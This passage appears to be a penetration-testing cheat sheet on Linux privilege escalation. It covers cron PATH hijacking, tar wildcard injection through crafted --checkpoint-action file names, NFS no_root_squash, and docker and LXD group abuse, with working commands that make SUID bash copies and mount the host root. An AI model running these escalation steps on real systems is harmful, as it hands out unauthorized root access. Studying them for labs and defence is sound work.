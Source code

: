 Crontab has a PATH variable which it uses to define where it will look for binaries to run. Therefore, if a cron job is set up which does not specify the full path to the binary, it can be exploited by placing a malicious binary with the same name within the path, hopefully sooner along than where the script/command running is. Of course, if you can edit the file which is called anyway, then you are sorted, and should just do that.



### *Wildcard Exploitation:* ###
If a command is scheduled to run with wildcards, you can exploit this in a very interesting way... this is often used to break out of containers or priv esc to root.

A straightforward example: create a file called '-la', then run 'ls *'. the file called -la is interpreted as an argument option for the ls command. Therefore, ls -la is what the system runs.

A privesc example of this:
```bash
#When you see this: 'tar cf archive.tar *':

touch -- "--checkpoint=1"
touch -- "--checkpoint-action=exec=sh shell.sh"
echo "#\!/bin/bash\ncp /bin/bash /tmp/bash; chmod +s /tmp/bash" > shell.sh

# Once the scirpt is executed, you will be able to run /tmp/bash -p to escalate to the user who owns the file.
```


### *NFS ROOT SQUASHING:* ###
You are looking for 'no_root_squash' on a mount point mentioned in the /etc/exports file.
We can then mount the share, and create a SUID copy of bash and put it into this share, or a malicious SUID binary which runs bash as root (setting UID and GID to 0).

```bash
cat /etc/exports # The file which tells what folders can be mounted as a file share. 
```


### *Docker:* ###
If the user is in the docker group, you can escalate with no special permissions:
```bash
docker run -it --rm -v $PWD:/mnt bash
```


### *LXD Group Privesc:* ###
If the user is in the lxd group, then you can escalate again with no special permissions:
```bash
#Often the git cloning will be run on your machine and then the file transferred over.
git clone https://github.com/saghul/lxd-alpine-builder
./build-alpine -a i686

#The image would be transferred to the remote machine here.

lxc image import ./alpine.tar.gz --alias myimage
lxc init myimage mycontainer -c security.privileged=true

# mount the /root into the image
lxc config device add mycontainer mydevice disk source=/ path=/mnt/root recursive=true

# interact
lxc start mycontainer
lxc exec mycontainer /bin/sh
```
